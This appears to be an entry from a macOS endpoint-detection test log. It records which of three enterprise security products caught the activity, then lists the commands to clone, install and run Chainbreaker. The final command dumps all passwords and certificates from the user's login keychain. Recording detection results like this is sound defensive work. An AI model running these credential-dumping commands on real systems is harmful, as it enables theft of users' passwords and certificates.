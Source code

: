 **Detections**
* Enterprise EDR Solution 1: No
* Enterprise EDR Solution 2: Yes (Blocked)
* Enterprise YARA Solution: No

Cloned and ran [Chainbreaker](https://github.com/n0fate/chainbreaker), a tool to dump passwords and certs from the keychain. 

`git clone https://github.com/n0fate/chainbreaker`

`cd chainbreaker`

`pip install -r requirements.txt`

`python setup.py bdist_wheel -d dist`

`pip install -e .`

`python -m chainbreaker --dump-all ~/Library/Keychains/login.keychain-db --password-prompt`